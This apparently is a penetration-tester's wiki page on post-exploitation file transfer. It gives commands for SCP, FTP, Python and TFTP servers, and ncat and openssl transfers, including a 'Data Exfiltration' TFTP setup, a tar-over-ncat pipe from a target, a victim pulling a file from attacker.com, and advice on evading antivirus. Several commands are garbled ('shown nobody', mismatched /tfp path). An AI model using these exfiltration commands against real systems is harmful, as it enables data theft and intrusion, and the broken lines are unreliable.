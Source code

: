 # File Transfers

Some methods are destructive and should be used with caution. All Post Exploitation binaries and scripts use should be documented to aid in cleaning up after engagement. 

1. For stealth and professionalism they could be found revealing foothold and potential abused for malicious individuals. Documenting each upload helps keep a inventory of use where and how, networks can get very large and it not ideal to have to traverse the entire network to remove one file you forgot to document and missed in cleaning up.
2. Antivirus scans endpoint filesystems in search of pre-defined file signatures which are mapped from open/closed source tools in wide use from open resources like [Virus Total](https://www.virustotal.com/gui/home/upload). AV should alert System Adminstrators and will quarantine any offending binaries or scripts.

Therefore its best practice to live off the land as regards to Post Exploitation only until a tool is needed to bypass or escalate further. For Shell related information see [[Shells]] and [[Reverse-Shells-Listing]] for various reverse shells and place to find more. For [[Windows-File-Transfers]] or [[Linux-File-Transfers]] follow the link the remainer of this article will include hosting methods

Sometime you do not have `curl` and `wget` or want to use either. 

## SCP

```bash
# Copy a local file to remote host 
scp <file> <user>@<host>:<dest>

# dump user directory with wildcard *
scp -i id_rsa user@10.10.10.10:* . 

# To copy a file from a remote server to your local machine:
scp -P $portnumber <user>@<host>:<src> <dest>

# To scp a file over a SOCKS proxy on localhost and port 9999 (see ssh for tunnel setup):
scp -o "ProxyCommand nc -x 127.0.0.1:9999 -X 4 %h %p" <file> <user>@<host>:<dest>

# To scp between two remote servers from the third machine:
scp -3 <user>@<host1>:<src> <user>@<host2>:<dest>
```


## PureFTPd
```bash
sudo apt install pure-ftpd
```

Setup script 
```bash
#!/bin/bash

sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
sudo cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

## Python

```bash
python3 -m http.server $port
python -m SimpleHTTPServer $port
```

## TFTP Upload Server for Data Exfiltration
```bash
apt install atftp
mkdir /tfp
shown nobody: /tftp
atftpd --daemon --port 69 /tftp
```


## Ncat

Target machine
```bash
tar cf - . | ncat $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## Openssl

Openssl is widely used for certificate and key handling 
```bash
# Create key and server to host a $file
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < $file_to_send
# Victim 
RHOST=attacker.com
RPORT=12345
LFILE=file_to_save
openssl s_client -quiet -connect $RHOST:$RPORT > "$LFILE"
```
[From GTFObins](https://gtfobins.github.io/gtfobins/openssl/#file-download)



## References

[cheat](https://github.com/cheat/cheatsheets/blob/master/scp)
